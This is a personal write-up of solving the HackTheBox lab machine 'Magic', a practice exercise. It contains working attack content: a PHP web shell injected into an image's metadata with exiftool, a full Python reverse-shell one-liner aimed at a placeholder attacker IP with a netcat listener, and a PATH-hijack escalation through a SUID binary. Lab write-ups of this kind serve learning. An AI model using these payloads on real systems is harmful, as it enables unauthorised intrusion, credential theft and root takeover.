 ```yaml
---
title: "HackTheBox: Magic WriteUp"
layout: default
published: true
---
```

So, that being said, today I pwned my first Hack The Box machine - Magic!

_Thanks to [Fahmi's Magic Walkthrough](https://medium.com/@fahmi1597/hack-the-box-magic-10-10-10-185-scratch-f534fce85b66)!_

So, I was presented with a webserver with 2 ports in use. Started to do recon on the website and found a login panel - bypassed the login using simple SQL injection. 

An image upload interface greeted me, and is ready to accept png, jpg and gif formats ONLY. There was a chance to get access using a php-reverse-shell but no, it did not accept any _.php_ format or even I tried _.php.png_, bad luck! This was the time for me to learn this **first trick**

### How to implement reverse shell inside an image?

* Using this tool - exiftool - we can view the metadata of an image and we could use the same to alter it as well.

```shell
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']);?>' image.png
```

What this command does is, it alters the Comment parameter of the image. 

![Exiftool Output](https://dev-to-uploads.s3.amazonaws.com/i/0yxcgckbeyloibrjutqr.png)

As we have used, $_GET we could send the data through the url in cmd parameter `...image.php.png?cmd=<any shell command>` and this will run the shell commands and give the output in the browser.

Checked if python is available or not, it was not but python3 was!

Then used the python one liner reverse shell to get access to the shell. Passed the one liner through `cmd` parameter and started listening on some port `nc -nlvp 1234`.

Python One Liner Reverse Shell:
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Did a bit recon as `www-data`, found credentials of mysql database which lead to mysqldump of user's credentials. 

Next step was privilege escalation to root!

Ran `linpeas.sh` and found out some SUID binaries, and one specific that looked interesting was `sysinfo` which was linked to `lshw`. 
**Time for the next lesson!**

### How to escalate using PATH variable and SUID?
After doing some recon, we knew that when `sysinfo` was running a service called `lshw` and therefore if we could run same command before `sysinfo`, we could possibly achieve our task.

Created a new file in `/tmp/cardinal/lshw` and put that python reverse shell in it and made it executable.

What we have to do now, is that specify this location in the PATH variable. 

```shell
export PATH=/tmp/cardinal/:$PATH
```

And then we came to our terminal and started the reverse shell and then in the user's terminal executed `sysinfo`. 

Viola!